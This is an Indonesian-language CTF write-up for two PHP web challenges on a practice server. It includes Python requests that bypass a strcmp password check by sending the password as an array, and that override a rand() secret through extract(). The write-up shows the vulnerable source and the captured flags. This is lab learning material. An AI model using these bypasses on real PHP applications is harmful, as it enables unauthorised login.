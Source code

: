 Web Exploitation
================

<!--ts-->
  * [Strcmp (5)](#strcmp)
  * [Guess The Secret (25)](#guess-the-secret)
  * [Another Secret (25)](#another-secret)
  * [Bank of Ctfs (5)](#bank-of-ctfs)
<!--te-->

Strcmp(5)
=========

```409 Solved
Author: abdilahrf  
Point: 5   Difficulties:

Strcmp is used to validate the password that user inputted and check is that a valid password if the password is not valid you can't get the flag! Find a way to get the flag http://chall.ctfs.me:8002/strcmp/
```

Tampilan dari alamat berikut merupakan halaman login yang memasukan username dan password sebagai input, dalam pengerjaan digunakan python interpreter dan library request.
Memasukan username dan password secara acak 

```python
In [1]: import requests
In [2]: r = requests.Session()
In [3]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"A", "pas
   ...: sword":"A", "submit":"Login"})
In [4]: a.text
Out[4]: u'<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

melakukan request kembali dengan username guest dan password guest

```python
In [5]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"guest", "pas
   ...: sword":"guest", "submit":"Login"})
In [6]: a.text
Out[6]:  u'Welcome Guest, to get flag you must login as admin<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Seperti pada nama soal kemungkinan authentikasi yang digunakan pada password adalah strcmp, vulnerability pada strcmp adalah apabila string dicompare dengan tipe lain seperti array misalnya, maka untuk mengerjakan soal ini digunakan request seperti berikut

```python
In [7]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"admin", "pas
   ...: sword[]":"A", "submit":"Login"})
In [8]: a.text
Out[8]:  u'flag : CTFS{strcmp_is_a_nightmare}<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Guess The Secret(25)
====================
```182 Solved
Author: abdilahrf  
Point: 25   Difficulties:

Can you guess the value from php rand() function ? if you can, let's grab the flag http://chall.ctfs.me:8002/guess-the-secret
```
Pada tampilan halaman jika dilakukan page source terlihat komentar debug=false, mengubah menjadi dengan true dengan menambahkan parameter debug=true pada url maka akan muncul source code halaman tersebut

```php
<?php
include 'flag.php';

if(isset($_GET['debug']) == "true"){
    show_source(__FILE__);  
}

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $secretKey = rand();
    extract($_POST);
    
    if($password == $secretKey){
        echo '<br>'.FLAG;   
    }else{
        echo "<br>not match";   
    }    
}
?>


<form method="POST"  action="<?=$_SERVER['PHP_SELF']?>" >
    <input type="text" name="password">
    <input type="submit" name="sb">
</form>
<!-- ?debug=false -->
```
Terdapat statement extact pada source code yang berfungsi untuk menjadikan parameter passing menjadi variabel pada php, pada source code ini paramter yang digunakan adalah password, penggunakan extract pada source code ini adalah penggunakan extract sesudah deklarasi variabel secretKey dimana maka variabel secretKey dapat di overide dengan paramter secretKey yang dikirim oleh user.
Digunakan python dan library requests untuk menyelesaikan soal ini.

```python
In [10]: requests.post("http://chall.ctfs.me:8002/guess-the-secret/", data={"password":"A","secretKey":"A"}).text
Out[10]: u'<br>CTFS{dont_use_extract_again}\n\n<form method="POST"  action="/guess-the-secret/index.php" >\n    <input type="text" name="password">\n    <input type="submit" name="sb">\n</form>\n<!-- ?debug=false -->'
```
